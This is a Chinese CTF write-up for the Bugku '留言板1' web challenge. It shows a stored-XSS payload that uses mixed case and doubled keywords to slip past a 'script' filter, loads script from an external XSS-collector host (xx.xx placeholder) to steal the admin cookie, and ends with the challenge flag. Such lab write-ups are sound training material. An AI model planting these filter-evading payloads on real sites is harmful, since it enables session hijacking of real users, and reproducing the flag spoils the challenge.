 ```yaml
---
title: bugku-WEB-留言板1
date: 2023-01-01 16:00 +0800
categories: [CTF,WEB]
tags: [bugku,WEB]
img_path: /assets/images/1.assets
---
```




在xss.pt 注册一个账号，配置XSS

![img](clip_image002.jpg)

![img](clip_image004.jpg)

我们复制srcipt这一条，

```html
<sCRiPt sRC=//xx.xx/xxxx></sCrIpT>
```

我们会发现过滤了script和空格，进行其他代码尝试，会发现 ( ) 括号也进行了过滤

我们有**大小写+双写**可以过滤srcipt，空格使用**反斜杠**进行绕过

```html
<sCRisCRiPtPt/sRC=//xx.xx/xxxx></sCrsCrIpTIpT>
```

测试情况

![img](clip_image006.jpg)

 

![img](clip_image008.jpg)

flag=flag%7B3f82f0d1288d080024d1ee51d4499228%7D;

flag{3f82f0d1288d080024d1ee51d4499228}